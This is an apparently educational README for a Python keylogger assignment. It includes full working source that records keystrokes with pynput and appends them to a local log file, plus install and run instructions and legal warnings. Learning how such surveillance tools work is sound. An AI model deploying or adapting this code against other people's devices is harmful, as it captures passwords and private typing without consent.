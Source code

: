 # Information System Security

# Keylogger Project

This project contains a simple keylogger (keyboard listener) application written in Python. It enables users to record keystrokes to a text file at specified intervals (e.g., every 10 seconds).

> **Warning**  
> This project is intended for **educational** and **assignment** purposes only. Tools like keyloggers can constitute illegal activity if misused. Use this project solely on your own devices and with proper permission from the relevant parties.

## Features

- Logs keyboard input into `keylogs.txt` every predefined interval (e.g., 10 seconds).
- Special keys (Enter, Tab, Space, Backspace) are handled and recorded in a readable format.
- Arrow keys and other system keys are not recorded.
- The listener stops when the **Esc** key is pressed.

## Installation

1. **Python Version**  
   This project requires Python 3 or later.

2. **Required Libraries**  
   - [pynput](https://pypi.org/project/pynput/)  
     ```
     pip install pynput
     ```

3. **Clone or Download the Project**  
   Save these files to a folder or clone the repository.

## Usage

1. Open the `keylogger.py` file.
2. Adjust the `interval` variable (default is 10 seconds) to your desired value:  
   ```python
   interval = 10  # Time interval (in seconds) for logging data
   ```
3. Run the application from the command line/terminal:  
   ```bash
   python keylogger.py
   ```
4. Once the program starts, it will collect keystrokes. Every **interval** seconds, the data will be appended to the `keylogs.txt` file.
5. To stop the program, press the **Esc** key.

## Code Explanation

```python
from pynput import keyboard
import threading

text = ""
interval = 10  # Interval in seconds for writing logs to the file

def send():
    global text
    try:
        with open("keylogs.txt", "a") as f:
            f.write(text)
        print("Data has been written to the file.")
        text = ""  # Reset text after writing to the file
        timer = threading.Timer(interval, send)
        timer.start()
    except Exception as e:
        print("An error occurred while sending data:", e)

def on_press(key):
    global text
    # Handle special keys
    if key == keyboard.Key.enter:
        text += "\n"
    elif key == keyboard.Key.tab:
        text += "\t"
    elif key == keyboard.Key.space:
        text += " "
    elif key == keyboard.Key.shift:
        pass
    elif key == keyboard.Key.backspace:
        if len(text) > 0:
            text = text[:-1]
    elif key == keyboard.Key.ctrl_l or key == keyboard.Key.ctrl_r:
        pass
    elif key == keyboard.Key.esc:
        return False
    else:
        # Capture and record normal character keys
        try:
            char = key.char
            if char is not None:
                text += char
        except AttributeError:
            # Ignore special keys (e.g., arrow keys)
            pass

with keyboard.Listener(on_press=on_press) as listener:
    send()  # Start sending logs at the specified interval
    listener.join()
```

### Important Points
- When `keylogger.py` is running, the file **keylogs.txt** will be created (if not already existing) in the same directory.  
- `keylogs.txt` is opened in **append** mode, so each log is added to the end of the file.  
- Check the contents of `keylogs.txt` periodically to review the captured data.

## Privacy and Legal Notice

- Only run this application on systems you own or where you have explicit permission.  
- Using a keylogger without the owner’s knowledge is illegal in many jurisdictions.
- This project is shared for **learning and awareness** purposes only. You are fully responsible for any misuse.

## Contributing

- Feel free to submit pull requests or suggest improvements directly to the project owner.
- You can fork this project and adapt it to your needs.

## License

This project is not licensed under any specific license. It can be used for educational purposes. For detailed usage terms, please refer to additional licensing details or contact the project owner.


